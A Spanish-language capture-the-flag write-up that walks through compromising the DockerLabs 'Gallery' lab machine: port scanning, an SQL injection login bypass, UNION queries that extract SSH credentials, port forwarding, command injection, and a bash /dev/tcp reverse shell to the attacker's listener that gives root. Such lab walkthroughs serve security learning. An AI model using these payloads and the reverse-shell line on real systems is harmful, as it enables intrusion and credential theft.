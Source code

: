 ## Descarga y montaje de la máquina
Desde https://dockerlabs.es/ buscamos la máquina vulnerable Gallery, y bajamos el zip:
https://mega.nz/file/ONlzkaAC#xPFZFyFo_ZxcSN-DoOdI5yqp7UJb3ugxNnM23UzcRww

Creamos carpeta:
```
mkdir Gallery
cd !$
```

Movemos el zip descargado:
```
mv /home/kali/Downloads/Gallery.zip .
```

Descomprimimos:
```
unzip Gallery.zip
```

Borramos el zip:
```
rm Gallery.zip
```

Montamos la máquina:
```
sudo bash auto_deploy.sh gallery.tar
```

✅ IP de la máquina desplegada:
```
172.17.0.2
```

Comprobamos conectividad:
```
ping -c 1 172.17.0.2
# TTL=64 → Linux
```

## Enumeración

Escaneo de puertos:
```
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN puertosYservicios
```

🔎 Servicios:
- 22/tcp OpenSSH 9.6
- 80/tcp PHP cli server 8.3.6

Nos centramos en el servicio HTTP

## Enumeración Web

Whatweb:
```
whatweb 172.17.0.2 -v
```

Encontramos botón login (/login.php)

Probamos login con inyección:
```
username: ' or 1=1-- -
```
✅ funciona

Entramos en `/dashboard.php`

🧪 Test SQLi (time-based):
```
' and sleep(2)-- -
```
→ en parámetro `search_term`

puede hacerse en el parámetro o en la URL--> "http://172.17.0.2/dashboard.php?search_term=' and sleep(2)-- -"  pondré la inyeccion
en el recuadro de "search"

Ordenamos columnas:
```
' ORDER BY 1-- -
```
→ hasta que falla en `ORDER BY 6` , luego las columnas válidas son 5.

Identificamos columnas reflejadas:
```
' UNION SELECT 1,2,3,4,5-- -
```
→ visibles 2 y 3

Listamos bases de datos:
```
' UNION SELECT 1,schema_name,3,4,5 FROM information_schema.schemata-- -
```

🎯 Bases de datos interesantes:
- gallery_db
- secret_db

Listamos tablas en `secret_db`:
```
' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema="secret_db"-- -
```

Obtenemos tabla: `secret`

Listamos columnas:
```
' UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_schema="secret_db" AND table_name="secret"-- -
```
Obtenemos-->ssh_users y ssh_pass

Extraemos datos:
```
' UNION SELECT 1,CONCAT(ssh_users,0x3a,ssh_pass),3,4,5 FROM secret_db.secret-- -
```

🗝️ Credenciales:
```
sam:$uper$ecretP4$$w0rd123
```

## Acceso SSH

```
ssh sam@172.17.0.2
```

🔑 Contraseña:
```
$uper$ecretP4$$w0rd123
```

## Escalada de privilegios

Verificamos procesos y puertos → puerto `8888` local
```
ps aux
```
esta parte nos indica que hay un puerto interno abierto con servicio php
```
php -S 127.0.0.1:8888
```

⏩ Hacemos port forwarding:

la sintaxis es la siguiente:
```
ssh -L <puerto_local>:<host_remoto>:<puerto_remoto> usuario@host_remoto
```
```
ssh -L 8888:127.0.0.1:8888 sam@172.17.0.2
```

Visitamos:
```
http://localhost:8888
```

Shell vulnerable detectada inyectando un comando después de ";" ( < comando valido > ; < comando malicioso > ) :
```
help;id
```
→ root

Abrimos listener:
```
nc -nvlp 445
```

Lanzamos reverse shell:
```
help; bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

🐚 Shell recibida:
```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 ¡Root obtenido!
